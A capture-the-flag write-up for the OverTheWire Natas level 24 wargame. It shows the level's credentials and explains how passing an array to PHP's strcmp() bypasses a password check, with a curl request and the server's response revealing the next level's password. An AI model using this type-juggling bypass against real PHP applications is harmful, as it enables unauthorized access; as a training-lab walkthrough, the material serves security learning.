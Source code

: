 # Natas24

*	user: `natas24`
*	pass: `OsRmXFguozKpTZZ5X14zNO43379LZveg`
*	url: [http://natas24.natas.labs.overthewire.org](http://natas24:OsRmXFguozKpTZZ5X14zNO43379LZveg@natas24.natas.labs.overthewire.org)
*	flag: `GHF6X7YwACaYYssHVY05cFq83hRktl4c`

## Procedure

1.	In this level, password is checked by using `strcmp()` function.
	According to documentation, this function returns only values `> 0`,
	`< 0` and `= 0`. So our target is to have the return value equal to
	0.

2.	In PHP, `strcmp()` has a strange behaviour. Indeed, if the passed
	arguments are not string, it returns 0. So, let's try by passing the
	empty array `passwd[]`

		$ curl -XGET -u natas24:OsRmXFguozKpTZZ5X14zNO43379LZveg http://natas24.natas.labs.overthewire.org/?passwd%5b%5d
		<html>
		<head>
		<!-- This stuff in the header has nothing to do with the level -->

		[cut]

		<b>Warning</b>:  strcmp() expects parameter 1 to be string, array given in <b>/var/www/natas/natas24/index.php</b> on line <b>23</b><br />
		<br>The credentials for the next level are:<br><pre>Username: natas25 Password: GHF6X7YwACaYYssHVY05cFq83hRktl4c</pre>

		[cut]

		</html>
